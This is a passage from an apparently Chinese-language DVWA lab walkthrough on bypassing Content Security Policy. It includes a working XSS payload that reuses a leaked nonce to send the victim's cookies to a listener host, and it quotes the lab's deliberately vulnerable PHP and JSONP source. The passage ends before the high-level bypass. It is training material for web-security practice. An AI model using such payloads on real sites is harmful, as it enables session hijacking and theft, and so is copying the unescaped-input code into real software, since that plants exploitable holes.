 - 允许内联脚本（`'unsafe-inline'`），但需要提供一个特定的 `nonce` 值（`TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=`）。
- 
```js
<script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">var url = 'http://127.0.0.1:7989?cookie=' + encodeURIComponent(document.cookie);   var xhr = new XMLHttpRequest();   xhr.open('GET', url, true);   xhr.send(); </script>
```

成功执行
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250323134452.png)

---
### High
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250323135655.png)

执行按钮后会请求json.php并设置相应参数
```php
<?php
$headerCSP = "Content-Security-Policy: script-src 'self';";

header($headerCSP);

?>
<?php
if (isset ($_POST['include'])) {
$page[ 'body' ] .= "
    " . $_POST['include'] . "
";
}
$page[ 'body' ] .= '
<form name="csp" method="POST">
    <p>The page makes a call to ' . DVWA_WEB_PAGE_TO_ROOT . '/vulnerabilities/csp/source/jsonp.php to load some code. Modify that page to run your own code.</p>
    <p>1+2+3+4+5=<span id="answer"></span></p>
    <input type="button" id="solve" value="Solve the sum" />
</form>

<script src="source/high.js"></script>
';
```

可以发现这个只会执行界面本身的js脚本

看看界面本身的js文件
```js
function clickButton() {
    var s = document.createElement("script");
    s.src = "source/jsonp.php?callback=solveSum";
    document.body.appendChild(s);
}

function solveSum(obj) {
    if ("answer" in obj) {
        document.getElementById("answer").innerHTML = obj['answer'];
    }
}

var solve_button = document.getElementById ("solve");

if (solve_button) {
    solve_button.addEventListener("click", function() {
        clickButton();
    });
}
```